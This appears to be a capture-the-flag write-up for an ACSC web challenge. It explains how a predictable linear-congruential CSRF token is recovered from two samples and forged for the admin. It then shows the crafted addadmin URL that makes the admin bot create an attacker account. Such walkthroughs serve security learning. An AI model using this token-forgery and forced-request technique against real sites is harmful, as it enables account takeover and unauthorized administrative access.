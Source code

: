 
### 🏁 About Challenge

Challenge : [Link](http://admin-dashboard.chal.ctf.acsc.asia/)

Description : `I built my first website, admin dashboard with bootstrap and PHP! Feel free to try it! Hope there is no bug..`

Flag Format : *ACSA{...}*

All of this was helped by  *Lucas Tan* 

### Getting Started

this website has login page,register page ,report url to admin page and secret page which is **addadmin** page. So It is hidden in menu bar.
I start from read and analyze **index.php** **addadmin.php** and **report.php**

![](Pic/1.PNG)
![](Pic/2.PNG)
![](Pic/3.PNG)

So flag will show at index page when roles from session is `"admin"`

Obviously in *addadmin page*, I found **$_REQUEST** that can recieve data from both of GET and POST method so we can send *username, password, csrf-token* to server side.


Here are the steps to do:
- Obtaining two csrf-token and calculating A,C from Modulo Equations Solving 
- Generating csrf-token with `"admin"` signer
- Send URL with parameter to report page for admin open this
- Login with new user that admin created and get the flag

After I have gotten two CSRF-token,I will get two equations too.
```
csrf-token=0x1a452416ff80f50031f6d234144feb8=gmp_mod(gmp_add(gmp_mul($A, gmp_import("123456781")),$C),gmp_init("0xc4f3b4b3deadbeef1337c0dedeadc0dd"))

csrf-token=0xa74bb23b99500da1a6703aa55dc177cf=gmp_mod(gmp_add(gmp_mul($A, 0x2482d495da6cd9022e88409822651761),$C),gmp_init("0xc4f3b4b3deadbeef1337c0dedeadc0dd"))
```
![](Pic/4.PNG)

I wrote python script for creating equations for Solving
by Modular Equation Solver from dcode.fr.It also can generating admin csrf-token.

This is output when I put R1,R2,I1,M to python script.
```
221659799348956823143700040298845790249 = ((A*(134666459445882))+C) && 73409535447087527716395983774812103739 = ((A*(221659799348956823143700040298845790249))+C)

M=261794080394952939563792136599736533213
```
So I recieved A and C. After this we will generate the admin's CSRF-token by using the one python sript.

![](Pic/5.PNG)
![](Pic/6.PNG)

Summit URL Report for admin entering and adding new a admin user.
```
http://localhost/addadmin?username=sudlitxxx&password=sudlitxxx&csrf-token=1165f73289305391c398a2c5841b46ea
```

Log out and back in with your new account to receive the flag. 
 
![](Pic/7.PNG)
###

#### Hope you enjoy this 

#### I couldn't do this in time. =w=*

![](https://i.gifer.com/jj.gif)
